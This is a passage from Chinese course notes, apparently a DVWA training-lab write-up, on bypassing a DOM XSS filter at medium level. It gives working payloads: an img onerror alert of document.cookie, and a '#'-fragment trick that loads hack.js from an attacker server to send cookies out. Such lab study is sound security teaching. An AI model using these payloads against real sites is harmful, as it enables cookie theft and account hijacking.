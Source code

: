`script`标签不能用了，我们还可以使用`img`标签访问一个不存在的资源，然后在`onerror`中调用`JavaScript`代码。

如果用`document.write`在`select`标签中写入`img`标签，会被自动抹除掉，所以要闭合`option`和`select`标签

把`transfer.js`改成下面这样，就能在`onerror`中使用`alert`命令了。

```JavaScript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n2.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English</option></select><img hidden src=x onerror=alert(document.cookie)>";
```

![Cookie](../../../img/课程笔记/网络安全/DVWA训练/3.DVWA_XSS_DOM_All/4.showCookie2.png)

$$
\text{Figure 4. Medium}
$$

不过这里因为不能把字符串和变量区分开，所以不能使用更加复杂的`JavaScript`代码。

要实现把cookie发送到服务端，我们还可以在URL中使用 `#` 符号，`#` 在URL中用来在页面中进行定位，浏览器不会把 `#` 后面的值发送到服务端。

所以，我们在`transfer.js`中加入一个 `#` 符号。

```javascript
window.location.href = "http://9710fc76520cf9b2ff5ea67e0af9e0df.n1.vsgo.cloud:10278/web/vulnerabilities/xss_d/?default=English# <script src=http://localhost:8888/hack.js>\</script>";
```

这样就能绕过检查规则，达到向我们的服务器发送`cookie`的目的了。

![Cookie](../../../img/课程笔记/网络安全/DVWA训练/3.DVWA_XSS_DOM_All/5.showCookie3.png)

$$
\text{Figure 5. Show Cookie}
$$
